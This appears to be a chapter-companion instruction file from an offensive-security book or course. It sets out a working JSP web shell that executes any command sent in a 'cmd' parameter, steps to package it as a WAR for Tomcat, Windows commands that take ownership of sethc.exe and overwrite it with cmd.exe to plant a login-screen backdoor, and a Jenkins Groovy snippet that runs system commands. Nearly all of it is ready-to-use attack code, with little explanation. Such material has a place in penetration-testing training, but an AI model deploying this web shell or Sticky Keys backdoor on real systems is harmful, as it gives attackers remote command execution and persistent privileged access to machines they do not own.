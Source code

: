 # Chapter 5 Instructions

## Setup the Environment

1. Create a directory named `webshell`:

   ```bash
   mkdir webshell
   ```

2. Change to the `webshell` directory:

   ```bash
   cd webshell
   ```

3. Install the Java Development Kit (JDK):

   ```bash
   apt install default-jdk
   ```

## Create the Web Shell JSP File

1. Create a JSP file (`index.jsp`) with the following content:

   ```jsp
   <FORM METHOD=GET ACTION='index.jsp'>
   <INPUT name='cmd' type=text>
   <INPUT type=submit value='Run'>
   </FORM>
   <%@ page import="java.io.*" %>
   <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
           String s = null;
           try {
               Process p = Runtime.getRuntime().exec(cmd,null,null);
               BufferedReader sI = new BufferedReader(new InputStreamReader(p.getInputStream()));
               while((s = sI.readLine()) != null) { output += s+"</br>"; }
           } catch(IOException e) { e.printStackTrace(); }
       }
   %>
   <pre><%=output %></pre>
   <FORM METHOD=GET ACTION='index.jsp'>
   ```

   This code creates a web form that allows users to input and execute shell commands through a web interface. The commands' output is displayed on the same page.

## Package and Deploy

1. List the directory contents and file permissions:

   ```bash
   ls -lah
   ```

2. Package the webshell into a WAR file to deploy on Tomcat:

   ```bash
   jar cvf ../webshell.war *
   ```

## Post-Deployment Commands

1. Display all network configuration values:

   ```bash
   ipconfig /all
   ```

2. Backup the Sticky Keys executable:

   ```cmd
   cmd.exe /c copy c:\windows\system32\sethc.exe c:\windows\system32\sethc.exe.backup
   ```

3. Check permissions for the Sticky Keys executable:

   ```cmd
   c:\windows\system32\cacls.exe c:\windows\system32\sethc.exe
   ```

4. Take ownership and grant full permissions to `sethc.exe`:

   ```cmd
   cmd.exe /C takeown /F C:\Windows\System32\sethc.exe && echo Y | icacls C:\Windows\System32\sethc.exe /grant Administrators:F
   ```

5. Re-check permissions for verification:

   ```cmd
   c:\windows\system32\cacls.exe c:\windows\system32\sethc.exe
   ```

6. Replace `sethc.exe` with `cmd.exe` to enable command line access from the login screen:

   ```cmd
   cmd.exe /c copy c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe /Y
   ```

## Jenkins Script

1. Execute and print the output of `ipconfig /all` using a Groovy script in Jenkins:

   ```groovy
   def sout = new StringBuffer(), serr = new StringBuffer()
   def proc = 'ipconfig /all'.execute()
   proc.consumeProcessOutput(sout, serr)
   proc.waitForOrKill(1000)
   println "out> $sout err> $serr"
   ```

   This Groovy script executes the `ipconfig /all` command.
